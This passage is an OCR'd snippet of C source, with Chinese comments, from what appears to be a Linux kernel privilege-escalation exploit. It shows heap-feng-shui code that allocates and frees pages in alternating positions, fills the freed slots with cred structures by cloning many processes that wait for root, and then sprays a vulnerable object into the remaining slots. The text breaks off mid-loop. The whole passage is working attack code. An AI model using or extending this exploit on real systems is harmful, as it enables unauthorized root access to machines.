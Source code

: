 ```c
    pipe(cmd_pipe_reply);

    if (!fork())
    {
        spray_cmd_handler();
    }

    info("Allocating pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i++)
    {
        if (alloc_page(i) < 0)
        {
            error("Failed to alloc page when idx=%d.", i);
            exit(-1);
        }
    }

    /**
     * 0x02. 释放奇数位置的页面，并将其占用为 cred 结构体
     */

    // 释放奇数位置的页面
    info("Freeing pages for cred...");
    for (int i = 1; i < PGV_PAGE_NUM; i += 2)
    {
        if (free_page(i) < 0)
        {
            error("Failed to free page when idx=%d.", i);
            exit(-2);
        }
    }

    // 将其占用为 cred 结构体
    info("Allocating for cred obj..");
    pipe(check_root_pipe);
    for (int i = 0; i < CRED_SPRAY_NUM; i++)
    {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, waiting_for_root_fn) < 0)
        {
            error("Failed to simple_clone when idx=%d.", i);
            exit(-3);
        }
    }

    /**
     * 0x03. 释放偶数位置的页面，并将其占用为vulnrable obj.
     */

    // 释放 pages
    info("Freeing pages for vuln obj...");
    for (int i = 0; i < PGV_PAGE_NUM; i += 2)
    {
        free_page(i);
    }

    // 占"用 pages 为 vulnerable obj
    info("Allocating for vuln obj...");
    memset(buffer, 0, 0x1000);
    *(uint32_t*)(&buffer[VULN_OBJ_SIZE - 6]) = 1;
    for (int i = 0; i < VULN_SPRAY_NUM; i++)
    {
        alloc();
```